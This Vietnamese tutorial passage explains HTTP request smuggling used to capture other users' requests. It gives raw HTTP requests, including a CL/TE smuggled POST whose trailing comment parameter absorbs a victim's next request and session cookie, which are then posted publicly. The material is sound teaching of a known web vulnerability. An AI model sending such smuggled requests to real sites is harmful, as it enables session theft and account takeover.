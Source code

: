 Để thực hiện cuộc tấn công này, bạn cần smuggle một yêu cầu gửi dữ liệu đến chức năng lưu trữ, với tham số chứa dữ liệu cần lưu được đặt ở cuối yêu cầu. Ví dụ, giả sử ứng dụng sử dụng yêu cầu sau để gửi bình luận vào bài đăng trên blog, bình luận này sẽ được lưu trữ và hiển thị trên blog:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
Giờ hãy xem điều gì xảy ra nếu bạn smuggle một yêu cầu tương tự với `Content-Length` dài quá mức và tham số comment được đặt ở cuối yêu cầu như sau:
```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
Header `Content-Length` của yêu cầu bị smuggle chỉ ra rằng phần thân sẽ dài 400 byte, nhưng chúng ta chỉ gửi 144 byte. Trong trường hợp này, máy chủ phía sau sẽ chờ 256 byte còn lại trước khi đưa ra phản hồi hoặc đưa ra thông báo timeout nếu không nhận được đủ nhanh. Kết quả là, khi có yêu cầu khác được gửi đến máy chủ phía sau trên cùng một kết nối, 256 byte đầu tiên sẽ được ghép vào yêu cầu bị smuggle như sau:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```
Vì phần đầu của yêu cầu của nạn nhân được chứa trong tham số comment, nó sẽ được đăng như một bình luận trên blog, cho phép bạn đọc thông tin này đơn giản bằng cách truy cập bài đăng liên quan.
